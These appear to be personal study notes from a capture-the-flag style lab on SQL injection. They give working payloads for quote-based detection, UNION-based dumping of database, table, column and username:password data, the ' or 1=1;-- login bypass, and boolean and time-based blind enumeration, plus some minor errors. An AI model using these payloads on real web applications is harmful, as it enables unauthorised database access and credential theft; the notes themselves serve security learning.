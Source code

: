 # SQL Injection

![](Pasted%20image%2020241116223725.png)

# [Introduction]()

In this case attacker exploit vulnerable input field in the web page to gain access of the database. Attacker inserts SQL command in the input field that interact with the database.
# [Example]()

![](Pasted%20image%2020241116225912.png)

![](Pasted%20image%2020241116225956.png)

# [SQL Injection Snippets]()

## [Example 0: Check SQL Injection Vulnerability]()

use `'` or `"` to know if the input field is vulnerable to SQL injection.

## [Example 1: In-band SQL Injection (reflected)]()

```sql
1 UNION SELECT 1
```

- If above gives error add another until success

```sql
0 UNION SELECT 1,2
```

```sql
0 UNION SELECT 1,2,3
```

- Above gives no error so look for database

```sql
0 UNION SELECT 1,2,database()
```

- `sqli_one` is the database name found. Get list of tables

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

- Fond `article,staff_users` tables. Get column from `staff_users`

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

- Found `id,password,username` columns. Let's get username and passwords

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
## [Example 2: Blind SQL Injection: Bypass Auth]()
- Inserting below will result `true` for any input

```sql
' or 1=1;--
```

## [Example 3: Blind SQL Injection: Boolean Based]()

`https://website.thm/checkuser?username=admin` this page returns `{"taken":true}`. For username query parameter we will put below sql snippet.

- Similar to example 1, select 1 if error/fail look for select 1,2 and so one

```sql
admin123' UNION SELECT 1;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2,3;--
```
```
Response:
{"taken":true}
```

- Now the response `taken` is `true`, look for database.

```sql
admin123' UNION SELECT 1,2,3 where database() like '%';--
```
```
Response:
{"taken":true}
```

```sql
admin123' UNION SELECT 1,2,3 where database() like 's%';--
```
```
Response:
{"taken":true}
```

- Brute force the name using `database() like 'sa%'` `, database() like 'sa%'`  as the received output is true or false until get  the database name. In this case it is `sqli_three`

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three';--
```
```
Response:
{"taken":true}
```

- Brute force table name until response is true

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

- Similarly brute force column name

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
```
```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
```

- Repeating the process to get username and password

```sql
admin123' UNION SELECT 1,2,3 from users where username like 'a%'
```
```sql
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%'
```

## [Example 4: Blind SQL: Time Based]()

There is no specific response for injected sql but in this case we use sleep(5) function to wait the server for 5 second. If the server waits for 5 second we know it is vulnerable to sql injection. 

- Similar to above example checking the number of columns by using

```sql
admin123' UNION SELECT SLEEP(5);--
```
![](Pasted%20image%2020241119155113.png)

This didn't wait for 5 seconds try for more number of columns

```sql
admin123' UNION SELECT SLEEP(5),2;--
```
![](Pasted%20image%2020241119155233.png)

This waited for 5 seconds telling there are 3 columns

## [Example 5: Out of band SQL]()

1. An attacker makes a request to a website vulnerable to SQL Injection with an injection payload.
2. The Website makes an SQL query to the database, which also passes the hacker's payload.
3. The payload contains a request which forces an HTTP request back to the hacker's machine containing data from the database.

![](Pasted%20image%2020241119160027.png)

